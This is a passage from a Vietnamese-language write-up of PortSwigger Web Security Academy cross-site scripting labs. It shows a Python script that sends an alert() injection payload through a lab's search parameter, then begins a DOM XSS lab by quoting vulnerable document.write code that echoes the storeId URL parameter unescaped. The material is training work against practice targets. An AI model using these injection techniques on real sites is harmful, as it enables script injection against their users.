 ```python
#!/usr/bin/python3.7
import requests
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a30005b04f0933483945fa300ac00e8.web-security-academy.net'

session = requests.Session()

payload = "cuong';alert(1);//"
response = session.get(
    url + '/?search=' + payload,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/Sk6yKfw5p.png)

mục đích của chúng ta đã hoàn thành và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/SyZ0uGw9a.png)

## 10. Lab: DOM XSS in document.write sink using source location.search inside a select element

link: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element

### Đề bài

![image](https://hackmd.io/_uploads/B1v5Kfv56.png)

### Phân tích

- Lab này chứa lỗ hổng DOM-based XSS ở chức năng check hàng hóa, chức năng này sử dụng hàm `document.write` trong javascript, nó sẽ viết dữ liệu đầu ra cho trang web. Chức năng này lấy dữ liệu từ location.search, nơi mà ta có thể control sử dụng URL, data được đính kèm theo với 1 element. Để solve lab thì mình cần thực hiện được câu lệnh alert().

![image](https://hackmd.io/_uploads/HyWr5zPcT.png)

CTRL+U mình được đoạn code xử lý javascript

```javascript
 <script>
        var stores = ["London","Paris","Milan"];
        var store = (new URLSearchParams(window.location.search)).get('storeId');
        document.write('<select name="storeId">');
        if(store) {
            document.write('<option selected>'+store+'</option>');
        }
        for(var i=0;i<stores.length;i++) {
            if(stores[i] === store) {
            continue;
            }
            document.write('<option>'+stores[i]+'</option>');
         }
        document.write('</select>');
</script>
```